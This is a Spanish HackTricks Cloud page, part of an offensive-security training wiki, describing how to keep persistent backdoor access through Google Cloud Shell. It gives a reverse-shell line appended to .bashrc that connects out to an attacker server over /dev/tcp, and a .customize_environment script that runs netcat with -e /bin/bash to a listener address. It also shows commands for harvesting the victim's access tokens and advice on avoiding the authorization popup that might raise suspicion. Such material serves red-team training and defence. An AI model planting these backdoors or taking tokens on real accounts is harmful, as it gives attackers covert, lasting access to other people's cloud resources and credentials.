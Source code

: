 # GCP - Persistencia de Cloud Shell

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de HackTricks en AWS)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* repositorios de github.

</details>

## Cloud Shell

Para más información consulta:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Puerta trasera persistente

[**Google Cloud Shell**](https://cloud.google.com/shell/) te proporciona acceso a la línea de comandos a tus recursos en la nube directamente desde tu navegador sin ningún costo asociado.

Puedes acceder al Cloud Shell de Google desde la **consola web** o ejecutando **`gcloud cloud-shell ssh`**.

Esta consola tiene algunas capacidades interesantes para los atacantes:

1. **Cualquier usuario de Google con acceso a Google Cloud** tiene acceso a una instancia de Cloud Shell completamente autenticada (las Cuentas de Servicio pueden, incluso siendo Propietarios de la organización).
2. Dicha instancia **mantendrá su directorio de inicio durante al menos 120 días** si no hay actividad.
3. No hay **capacidades para que una organización supervise** la actividad de esa instancia.

Básicamente esto significa que un atacante puede colocar una puerta trasera en el directorio de inicio del usuario y siempre que el usuario se conecte al GC Shell cada 120 días al menos, la puerta trasera sobrevivirá y el atacante obtendrá una shell cada vez que se ejecute simplemente haciendo:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Hay otro archivo en la carpeta de inicio llamado **`.customize_environment`** que, si existe, se va a **ejecutar cada vez** que el usuario acceda a la **nube shell** (como en la técnica anterior). Simplemente inserta la puerta trasera anterior o una similar para mantener la persistencia siempre que el usuario use "frecuentemente" la nube shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Es importante tener en cuenta que la **primera vez que se realiza una acción que requiere autenticación**, aparece una ventana emergente de autorización en el navegador del usuario. Esta ventana debe ser aceptada antes de que el comando pueda ejecutarse. Si aparece una ventana emergente inesperada, podría levantar sospechas y comprometer potencialmente el método de persistencia que se está utilizando.
{% endhint %}

Esta es la ventana emergente al ejecutar `gcloud projects list` desde la terminal en la nube (como atacante) vista en la sesión del usuario del navegador:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Sin embargo, si el usuario ha utilizado activamente la terminal en la nube, la ventana emergente no aparecerá y puedes **recopilar tokens del usuario con**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Cómo se establece la conexión SSH

Básicamente, se utilizan estas 3 llamadas a la API:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (te permitirá agregar tu clave pública creada localmente)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (te permitirá iniciar la instancia)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (te dirá la dirección IP de la nube de Google)

Pero puedes encontrar más información en [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Referencias

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Aprende y practica Hacking en AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* ¡Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
